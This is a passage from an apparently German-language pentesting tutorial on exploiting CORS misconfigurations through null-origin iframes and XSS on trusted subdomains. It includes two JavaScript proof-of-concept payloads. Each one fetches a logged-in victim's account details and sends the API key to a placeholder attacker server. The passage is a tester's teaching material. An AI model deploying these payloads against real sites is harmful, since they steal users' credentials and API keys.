 ```javascript
<html>  
<body>  
<iframe style="display: none;" sandbox="allow-scripts" srcdoc="  
<script>  
var req = new XMLHttpRequest();  
var url = 'APPLICATION URL'  
req.onload = retrieveKeys;  
  
req.open('GET', url + '/accountDetails', true);  
req.withCredentials = true;  
req.send(null);  
  
function retrieveKeys() {  
fetch('https://Exolit_Server_Hostname/log?key=' + req.responseText)  
}  
</script>"></iframe>  
</body>  
</html>
```

Wenn der authentifizierte Benutzer auf unseren Link http://192.168.1.14:5555/cors_null_poc.html klickt, erhalten wir den [[API-Schlüssel]] aus den Kontodetails. Da unser Benutzer jedoch kein Administrator ist, können wir den [[Administrator-API-Schlüssel]] nicht abrufen.  
  
Der Zweck der Darstellung der folgenden Schritte besteht darin, dass Sie als Tester während einer Webanwendungstestbewertung Administrator- und reguläre Benutzerkonten zum Testen erhalten. In diesem Fall befolgen Sie die folgenden Schritte, um Ihren Proof of Concept durch Hosting zu zeigen die Datei lokal. Alternativ können Sie die Datei natürlich auch extern hosten.

### 3. Trusted Subdomains
Die Anwendung gilt als anfällig, wenn sie Access-Control-Allow-Origin auf eine ihrer Subdomänen setzt und Anmeldeinformationen zulässt, wobei Access-Control-Allow-Credentials auf „true“ gesetzt ist.  
  
Die Ausnutzung dieses Falles hängt davon ab, ob die vorhandene Subdomain anfällig für eine XSS-Schwachstelle ist, damit der Angreifer die Fehlkonfiguration missbrauchen kann.

```http
Access-Control-Allow-Origin: subdomainattacker.example.com  
Access-Control-Allow-Credentials: true
```

Wenn Sie auf dieses Szenario stoßen, müssen Sie alle vorhandenen Subdomains überprüfen und versuchen, eine mit einer XSS-Schwachstelle zu finden, um diese auszunutzen.

Wir werden dasselbe Skript verwenden, um diesen Fall auszunutzen, außer dass wir den Speicherort hinzufügen, an dem wir die Nutzlast mithilfe der Funktion document.location einfügen. Dann formatieren wir die Nutzlast als einzeilige Nutzlast, damit wir sie im Parameter übergeben können.

```javascript
<script>  
	document.location="http://subdomain.domain.com/?productId=<script>  
<script>  
var req = new XMLHttpRequest();  
req.onload = retrieveKeys;  
req.open('GET', "APPLICATION URL/accountDetails",true);  
req.withCredentials = true;  
req.send(null);  
  
function retrieveKeys() {  
location='https://Exolit_Server_Hostname/log?key='+this.responseText;  
};  
  
</script>  
</script>
```
